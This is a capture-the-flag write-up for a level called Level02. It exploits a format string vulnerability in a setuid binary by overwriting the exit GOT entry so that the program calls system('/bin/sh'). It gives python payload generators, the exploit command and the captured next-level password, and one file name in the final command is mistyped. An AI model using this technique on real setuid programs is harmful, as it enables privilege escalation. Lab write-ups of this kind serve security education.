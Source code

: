 # Level02

## Setup
 * There is one file in our home, ```level02```, belonging to ```level03``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
	* `main()` will get 2 user inputs through `fgets()` which is correctly protected
		* 1st user input is of `0x64`
		* 2nd user input is of `0x64`, and ask the user for the password. It's the highest buffer on the `main()` stack 
			* If correct:
				* it will execute `system("/bin/sh")`
			* If incorrect:
				* it uses the 1st input as a `printf format string`
				* and then call `exit()`
	
## Resolution
 * We will use the `format string vulnerability`

 * We want `rip` to become `0x00400a85`, or `4196997` in decimal,  so it executes `system("/bin/sh")`

```sh
objdump -D -M intel ./level02
...
400a85:	bf 32 0d 40 00       	mov    edi,0x400d32
400a8a:	e8 21 fc ff ff       	call   4006b0 <system@plt>
...
```

 * To modify `rip` we want to make use of the `Dynamic Relocation` by changing the address associated with the `jmp`, here it's `0x0000000000601228`

 ```sh
 objdump -R level02

level02:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
...
0000000000601228 R_X86_64_JUMP_SLOT  exit
...
 ```

* With the `format string vulnerabity`, we want to go through multiple arguments with `%lx`. As it's x86_64, we need to take into account the registers used as arguments, there will be a total of `7 arguments to pass`.
* And we will have to write a total of `4196997` characters before using `%n`

 ```sh
python -c "print(                                               
'%016lx' +
'%016lx' +                          
'%016lx' +
'%016lx' +
'%016lx' +
'%016lx' +
'%0' + str(4196997 - (16 * 6)) + 'lx' +
'%n'
)" > /var/crash/level02_1st_arg
 ```

* We then write our address in the 2nd argument:

 ```sh
python -c "print(                                                  
'\x00\x00\x00\x00\x00\x60\x12\x28'[::-1] 
)" > /var/crash/level02_2nd_arg
 ```

 * We can now execute the vulnerability:

 ```sh
cat /var/crash/level02_1st_arg /var/crash/level02_2n_arg - | ./level02
...
cd ../level03
cat .pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
 ```



